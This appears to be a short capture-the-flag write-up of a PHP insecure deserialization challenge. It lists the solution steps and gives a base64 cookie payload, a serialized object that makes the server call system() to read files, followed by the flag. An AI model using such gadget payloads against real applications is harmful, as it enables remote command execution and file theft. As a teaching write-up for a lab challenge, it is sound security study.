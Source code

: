 * Category
  * Unsecure Deserialization
  * PHP phar
* Solution
  1. Construct self-defined serialized object
  2. Modify class type of ```$this->magic``` to ```Caster```
     * So we can use ```Caster()->cast()``` instead of ```Magic()->cast()```
  3. ```Caster()->cat_func``` and ```Cat->spell``` are both definable
* Payload
  1. cookie = ```TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjc6ImNhdCAvZioiO30=```
* ```FLAG{magic_cat_pwnpwn}```